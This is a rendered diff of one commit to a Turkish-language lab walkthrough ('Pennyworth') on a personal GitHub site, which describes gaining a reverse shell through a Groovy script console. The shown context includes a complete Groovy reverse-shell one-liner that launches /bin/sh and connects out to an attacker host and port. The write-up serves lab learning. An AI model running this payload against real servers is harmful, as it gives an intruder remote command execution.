

Before and after one commit to burakcanbalta/burakcanbalta.github.io, a Markdown page: content/articles/Pennyworth.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/content/articles/Pennyworth.md
+++ b/content/articles/Pennyworth.md
@@ -58,7 +58,7 @@ Sayfa beni şu mesajla karşılıyor:
 
 > Type in an arbitrary **Groovy script** and execute it on the server.
 
-Bu, tam olarak beklediğim şey: yetkili bir kullanıcı olarak sunucu üzerinde doğrudan Groovy (dolayısıyla JVM üzerinden herhangi bir sistem komutu) çalıştırabiliyorum. Groovy tabanlı bir **reverse shell** payload'ı arıyorum ve şu kaynağa ulaşıyorum:
+Bu, tam olarak beklediğim şey: yetkili bir kullanıcı olarak sunucu üzerinde doğrudan Groovy çalıştırabiliyorum. Groovy tabanlı bir **reverse shell** payload'ı arıyorum ve şu kaynağa ulaşıyorum:
 
 > https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell
 
@@ -71,9 +71,6 @@ String cmd="/bin/sh";
 Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
 ```
 
-`host` değişkenini kendi (attacker) IP'me, `port` değişkenini de dinleyeceğim porta göre ayarlıyorum.
-
----
 
 ## 5. Listener Hazırlığı ve Shell Alımı
 
````
